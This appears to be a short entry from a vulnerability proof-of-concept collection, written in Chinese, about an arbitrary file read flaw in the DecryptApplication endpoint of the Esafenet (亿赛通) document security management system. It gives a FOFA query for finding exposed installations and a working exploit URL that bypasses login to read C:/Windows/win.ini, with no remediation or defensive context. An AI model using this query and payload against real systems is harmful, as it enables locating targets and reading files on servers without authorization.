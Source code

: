 ## 亿赛通电子文档安全管理系统DecryptApplication存在任意文件读取漏洞

## fofa
```
app="亿赛通电子文档安全管理系统"
```

## poc
```
http://ip/CDGServer3/client/;login;/DecryptApplication?command=ViewUploadFile&filePath=C:///Windows/win.ini&uploadFileId=1&fileName1=test1111
```
